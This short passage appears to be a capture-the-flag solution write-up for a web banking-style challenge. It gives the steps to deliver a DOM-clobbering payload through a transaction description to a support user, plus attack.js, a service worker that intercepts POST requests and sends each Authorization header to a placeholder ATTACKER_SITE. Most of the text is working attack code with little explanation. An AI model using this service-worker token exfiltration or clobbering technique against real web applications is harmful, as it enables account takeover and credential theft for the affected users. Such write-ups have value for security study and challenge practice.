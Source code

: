 Host `attack.js` on a server and replace the URL with your URL. Then send a transaction to your support user with 0 money and the description as in `dom_clobber.txt`. Replace the URL again. You get the recipient id of your support user via the GraphQL transactions query.

#### attack.js

```js
self.addEventListener("fetch", (event) => {
    const url = new URL(event.request.url);
    console.log("Request to -> " + url);
    if (event.request.method == "POST") {
        auth = event.request.headers.get("Authorization");
        console.log(auth);

        const url = "//ATTACKER_SITE?auth=" + auth;
        // Send data to third party
        fetch(url);

        event.respondWith(fetch(event.request));
    }
});
```

#### dom_clobber.html

```html
<div hidden id="lng">/ATTACKER_SITE?</div>
```
